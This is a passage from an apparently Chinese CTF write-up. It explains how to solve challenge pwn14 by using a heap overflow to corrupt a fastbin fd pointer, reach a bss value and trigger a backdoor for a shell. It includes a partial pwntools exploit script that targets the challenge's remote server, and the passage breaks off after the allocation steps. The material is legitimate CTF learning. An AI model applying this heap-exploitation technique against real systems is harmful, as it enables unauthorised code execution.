 ```python
sl('1')

print(hex(base))
print(hex(heap))
p.interactive()

```



### 正定

pwn14有个官方后门，只要bss段处某个值（0x4040A0处）大于0x7e3就可以了。题目有很明显的堆溢出。堆溢出修改fastbin中后面一个chunk的fd字段给bss，注意size位的校验（往上几个位置把7f当成size就行），然后直接往里面写ffffffff，操作完之后在选单输入70就会ok然后getshell了。（payload妹操作70，需要自己打一下）

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'

debug = 0
if debug:
	p = process('./pwn14')
	gdb.attach(p, 'b* 0x4015F3')
else:
	p = remote('111.33.164.6',50014)

def se(x):
	p.send(x)

def sl(x):
	p.sendline(x)

def ru(x):
	p.recvuntil(x)

def new(sz, content):
	ru('Your choice : ')
	sl('1')
	ru('Size of note : ')
	sl(str(sz))
	ru('Content of note:')
	se(content)

def edit(idx, sz, content):
	ru('Your choice : ')
	sl('2')
	ru('Index :')
	sl(str(idx))
	ru('Size of note : ')
	sl(str(sz))
	ru('Content of note : ')
	se(content)

def delete(idx):
	ru('Your choice : ')
	sl('3')
	ru('Index :')
	sl(str(idx))

new(0x60, 'a'*0x60)
new(0x60, 'b'*0x60)
new(0x60, 'c'*0x60)
new(0x60, 'd'*0x60)

```